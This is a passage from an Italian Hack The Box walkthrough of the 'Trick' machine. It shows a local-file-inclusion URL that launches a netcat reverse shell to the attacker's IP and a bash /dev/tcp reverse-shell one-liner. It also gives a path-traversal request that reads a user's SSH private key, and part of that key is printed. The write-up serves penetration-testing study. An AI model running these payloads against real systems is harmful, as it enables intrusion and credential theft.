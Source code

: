 ![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/trick9.png)

Funziona, abbiamo la nostra RCE

non ci resta che metterci in ascolto con nc 

```
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 1234
listening on [any] 1234 ...

```
e visitare l'url 

http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael&cmd=nc%2010.10.14.18%201234%20-e%20%2Fbin%2Fsh

`nc%2010.10.14.18%201234%20-e%20%2Fbin%2Fsh` corrisponde al url encoded di 
nc 10.10.14.18 1234 -e /bin/sh

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.18] from trick.htb [10.10.11.166] 46744
id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
```

abbiamo la nostra shell

> Nota: Possiamo utilizzare anche un shell in bash come questa:
> bash -c 'bash -i >& /dev/tcp/ip-attacker/1234 0>&1' basta che ci ricoriamo di effettuare l'url encode 


## SSH via LFI

Proviamo a leggere la chiave RSA di micheal con LFI

http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././..././..././..././home/michael/.ssh/id_rsa

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Trick10.png)

non ci resta che salvare in un file di testo 

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
```